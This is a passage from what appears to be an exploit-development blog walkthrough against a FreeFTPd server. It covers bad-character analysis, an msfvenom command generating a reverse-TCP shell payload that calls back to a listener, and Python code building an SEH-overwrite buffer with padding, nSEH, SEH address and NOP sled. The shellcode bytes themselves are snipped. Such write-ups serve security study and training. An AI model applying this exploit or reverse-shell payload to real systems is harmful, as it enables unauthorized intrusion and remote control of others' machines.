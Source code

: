 Let's restart everything, and run the skeleton exploit.

![screenshot](/assets/images/freeftpd/badchars.PNG)

Whoa boy...this got painful. Basically you can just tell by eye-balling that there is a lot of stuff mixed up, messed around with, and just outright FUBARed. TL;DR the only characters usable need to be ASCII or Unicode-friendly, which...thinking about the nature of the bug originating from WideCharToMultiByte, it makes sense that the buffer would be manipulated in this manner. Thankfully we have plenty of space to use for shellcode, and the stack is aligned so we don't have to use any crazy tricks. We just need to make sure the shellcode is encoded to be alphanumeric in some form or another. Referencing the output above, there are 4 characters we need to make extra sure are not in the shellcode: "\x00", "\x0a", "\x0d", and "\x20". These correlate to null-byte, new line, carriage return, and space. 

## Achieving The Shell

Let's generate a payload, and see what happens.

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.10.16 LPORT=4444 -b '\x00\x0a\x0d\x20' -e x86/alpha_mixed
```

Add it to the exploit, and pad the beginning of it with a sled of NOP instructions:

```python
shellcode = ("\x89\xe7\xda\xd2 SNIP SNIP SNIP") 

SEH = pack("<I", 0x7ffc0519)       # SEH should read 1905fc7f
nSEH = "\xCC\xCC\xEB\x04"          # The next SEH should have an address of 04EBCCCC
nopsled = "\x90"*8

buffer = "A"*982
buffer += nSEH
buffer += SEH
buffer += nopsled
buffer += shellcode
buffer += "D"*(2000-982-len(SEH)-len(nSEH)-len(nopsled)-len(shellcode))  
```

Restarting and rerunning the skeleton exploit again, we land in the NOP instructions, and we can see the beginning part of our shellcode.
